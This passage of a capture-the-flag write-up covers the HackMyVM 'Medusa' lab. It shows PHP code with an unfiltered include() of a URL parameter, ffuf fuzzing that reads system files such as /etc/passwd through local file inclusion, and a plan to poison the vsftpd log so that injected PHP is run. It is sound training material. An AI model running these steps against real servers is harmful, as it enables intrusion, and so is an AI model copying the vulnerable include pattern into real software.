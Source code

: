 ```bash
$file = $_GET['view'];
if(isset($file))
{
include("$file");
}
else
{
include("index.php");
}
?>
```
Since the is no filter we have to bypass we can directly fuzz for common files in the linux environment.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Medusa/Misc Files]
└─$ffuf -ic -c -u http://dev.medusa.hmv/files/system.php?view=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-linux-and-windows_by-1N3@CrowdShield.txt  -fs 0 

<SNIP>
/etc/apache2/apache2.conf [Status: 200, Size: 7224, Words: 942, Lines: 228, Duration: 16ms]
/etc/crontab            [Status: 200, Size: 1042, Words: 181, Lines: 23, Duration: 19ms]
/etc/fstab              [Status: 200, Size: 806, Words: 180, Lines: 16, Duration: 23ms]
/etc/group              [Status: 200, Size: 758, Words: 1, Lines: 55, Duration: 31ms]
/etc/hosts              [Status: 200, Size: 190, Words: 19, Lines: 8, Duration: 37ms]
/etc/issue              [Status: 200, Size: 79, Words: 11, Lines: 7, Duration: 18ms]
/etc/motd               [Status: 200, Size: 286, Words: 36, Lines: 8, Duration: 17ms]
/etc/passwd             [Status: 200, Size: 1452, Words: 14, Lines: 28, Duration: 20ms]
/etc/vsftpd.conf        [Status: 200, Size: 5850, Words: 806, Lines: 156, Duration: 19ms]
/etc/ssh/sshd_config    [Status: 200, Size: 3333, Words: 296, Lines: 127, Duration: 25ms]
/proc/cmdline           [Status: 200, Size: 97, Words: 4, Lines: 2, Duration: 20ms]
/proc/self/cmdline      [Status: 200, Size: 27, Words: 1, Lines: 1, Duration: 20ms]
/proc/self/stat         [Status: 200, Size: 320, Words: 52, Lines: 2, Duration: 16ms]
/proc/self/status       [Status: 200, Size: 1337, Words: 91, Lines: 57, Duration: 15ms]
/proc/version           [Status: 200, Size: 185, Words: 21, Lines: 2, Duration: 16ms]
/var/log/lastlog        [Status: 200, Size: 292292, Words: 1, Lines: 1, Duration: 24ms]
/var/log/wtmp           [Status: 200, Size: 44928, Words: 10, Lines: 18, Duration: 26ms]
/var/run/utmp           [Status: 200, Size: 1152, Words: 1, Lines: 2, Duration: 14ms]
/var/log/vsftpd.log     [Status: 200, Size: 493320, Words: 63948, Lines: 6092, Duration: 118ms]
:: Progress: [1155/1155] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
From the result above, we can read the FTP server's log. Remember that the PHP function used in the system.php file is include(), this function executes the file it reads. Since we can control the content of the FTP server log i.e. our username, we can place a PHP code at the place of the username and execute it when we include the file. First let's verify that we can control the content of the log file
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$ftp 10.0.2.6                                                                                                                                          
Connected to 10.0.2.6.
220 (vsFTPd 3.0.3)
Name (10.0.2.6:pentester): I CONTROL LOGS
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.

┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$curl -s http://dev.medusa.hmv/files/system.php?view=/var/log/vsftpd.log                

<SNIP>

```